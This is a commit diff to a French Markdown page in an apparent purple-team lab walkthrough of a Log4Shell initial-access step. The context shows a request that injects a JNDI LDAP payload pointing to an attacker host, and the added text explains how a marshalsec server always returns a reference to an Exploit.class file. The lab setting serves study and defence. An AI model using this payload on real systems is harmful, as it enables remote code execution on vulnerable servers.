

Before and after one commit to ismardn/ecorp-purple-team-lab, a Markdown page: red-team-kill-chain/01-initial-access-log4shell.md, the part around the change. Rendered like a GitHub page; blank space fills up the shorter version.

Commit message:
docs(red-team): explain marshalsec catch-all behavior for JNDI path

````diff
--- a/red-team-kill-chain/01-initial-access-log4shell.md
+++ b/red-team-kill-chain/01-initial-access-log4shell.md
@@ -74,7 +74,7 @@ public class Exploit {
       -d '{"username":"${jndi:ldap://192.168.1.150:1389/a}","password":"test"}'
     ```
 
-    L'envoi de la requête finale déclenche la chaîne d'exécution.
+    L'envoi de la requête finale déclenche la chaîne d'exécution. Le chemin `/a` spécifié à la fin de l'URI LDAP n'a pas d'importance technique. Le serveur `marshalsec` instancié à l'étape 1 agit comme un "catch-all" : quelle que soit la ressource précise demandée par la victime (`/a`, `/test`, etc.), il intercepte la requête et renvoie systématiquement la référence JNDI pointant vers le fichier `Exploit.class` ("`#Exploit`").
 
 <br>
 
````
